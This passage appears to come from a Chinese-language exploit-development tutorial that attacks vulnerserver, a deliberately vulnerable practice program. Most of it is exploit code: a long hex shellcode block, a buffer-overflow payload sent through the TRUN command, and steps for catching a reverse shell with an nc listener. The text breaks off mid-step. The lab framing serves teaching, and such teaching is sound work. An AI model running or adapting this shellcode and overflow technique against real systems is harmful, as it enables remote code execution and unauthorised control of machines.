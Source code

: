 ```
shellcode += "\x5b\x33\x39\x99\x2f\x1b\x5e\x1c\xe3\x10\x5a\x95\x02"
shellcode += "\xf6\xea\xed\x20\xd2\xb7\xb6\x49\x43\x12\x18\x75\x93"
shellcode += "\xfd\xc5\xd3\xd8\x10\x11\x6e\x83\x7c\xd6\x43\x3b\x7d"
shellcode += "\x70\xd3\x48\x4f\xdf\x4f\xc6\xe3\xa8\x49\x11\x03\x83"
shellcode += "\x2e\x8d\xfa\x2c\x4f\x84\x38\x78\x1f\xbe\xe9\x01\xf4"
shellcode += "\x3e\x15\xd4\x5b\x6e\xb9\x87\x1b\xde\x79\x78\xf4\x34"
shellcode += "\x76\xa7\xe4\x37\x5c\xc0\x8f\xc2\x37\x43\x5f\x95\xc6"
shellcode += "\xf3\x62\x25\xd9\xe2\xea\xc3\xb3\xf4\xba\x5c\x2c\x6c"
shellcode += "\xe7\x16\xcd\x71\x3d\x53\xcd\xfa\xb2\xa4\x80\x0a\xbe"
shellcode += "\xb6\x75\xfb\xf5\xe4\xd0\x04\x20\x80\xbf\x97\xaf\x50"
shellcode += "\xc9\x8b\x67\x07\x9e\x7a\x7e\xcd\x32\x24\x28\xf3\xce"
shellcode += "\xb0\x13\xb7\x14\x01\x9d\x36\xd8\x3d\xb9\x28\x24\xbd"
shellcode += "\x85\x1c\xf8\xe8\x53\xca\xbe\x42\x12\xa4\x68\x38\xfc"
shellcode += "\x20\xec\x72\x3f\x36\xf1\x5e\xc9\xd6\x40\x37\x8c\xe9"
shellcode += "\x6d\xdf\x18\x92\x93\x7f\xe6\x49\x10\x8f\xad\xd3\x31"
shellcode += "\x18\x68\x86\x03\x45\x8b\x7d\x47\x70\x08\x77\x38\x87"
shellcode += "\x10\xf2\x3d\xc3\x96\xef\x4f\x5c\x73\x0f\xe3\x5d\x56"

injection = junk + eip + nops + shellcode
s.send(('TRUN .' + injection + '\r\n'))
print s.recv(1024)
s.send('EXIT\r\n') 
print s.recv(1024)
s.close()
```

1.  现在，让我们再次启动 vulnserver。然后，在我们的攻击机器上设置一个监听器：

```
$ nc -lp 4321
```

1.  是时候尝试我们的 exploit 了，让我们保持对监听器的关注：

```
./exploit.py
```

1.  然后，从我们的监听 shell 中，执行以下命令：

![](img/00316.jpeg)

1.  让我们使用`ipconfig`来确认一下：
